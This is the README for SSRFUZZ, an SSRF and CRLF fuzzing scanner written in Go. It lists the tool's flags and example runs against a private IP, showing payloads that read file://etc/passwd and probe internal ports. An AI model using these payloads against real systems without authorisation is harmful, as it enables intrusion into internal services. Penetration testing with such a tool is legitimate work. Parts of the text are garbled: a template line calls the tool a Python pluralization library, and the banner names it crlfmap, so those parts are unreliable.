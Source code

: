 # SSRFUZZ

Foobar is a Python library for dealing with word pluralization.

## Installation

Run the following command to intsall

```bash
go get -u github.com/ryandamour/ssrfuzz
```

## Usage

```go
===============================================================
SSRFUZZ v1.0.0
by Ryan D'Amour @ryandamour 
===============================================================A scanner for all your SSRF Fuzzing needs

Usage:
  crlfmap scan [flags]

Flags:
      --delay int              The time each threads waits between requests in milliseconds (default 100)
  -d, --domains string         Location of domains with parameters to scan
  -h, --help                   help for scan
  -x, --http-method string     HTTP Method - GET or POST (default "GET")
  -o, --output string          Location to save results
      --skip-crlf              Skip CRLF fuzzing
      --skip-network           Skip network fuzzing
      --skip-scheme            Skip scheme fuzzing
  -s, --slack-webhook string   Slack webhook to send findings to a channel
  -t, --threads int            Number of threads to run crlfmap on (default 50)
      --timeout int            The amount of time needed to close a connection that could be hung (default 10)
  -u, --user-agent string      User agent for requests (default "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36")
  -v, --verbose                verbose output

```
* Scanning http and scheme payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan
```
 
[!] Scheme payload match:
* http://192.168.1.10/test.php?u=file://etc/passwd 200

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.ph?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
```
* Scanning only http payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme
```

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
```
* Scanning only http payloads w/o crlf:
```go
* Scanning only http payloads w/ crlf:
```go
echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme --skip-crlf
```

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
